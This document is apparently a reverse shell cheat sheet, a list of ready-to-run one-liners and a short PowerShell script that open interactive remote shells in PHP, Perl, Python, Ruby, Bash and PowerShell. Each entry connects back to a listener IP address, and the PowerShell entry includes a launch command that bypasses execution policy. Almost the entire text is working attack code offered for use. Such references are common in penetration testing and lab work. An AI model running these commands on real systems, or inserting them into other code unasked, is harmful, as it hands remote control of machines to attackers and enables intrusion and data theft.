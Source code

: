 ```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Tiny Reverse Shell

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.36.167/1337 0>&1'");
```

### Perl Reverse Shell

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

### Python Reverse Shell

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Ruby Reverse Shell

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Bash Reverse Shell

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
### Powershell Reverse Shell

Create a simple powershell script called reverse.ps1:

```powershell
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}
```

```powershell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```
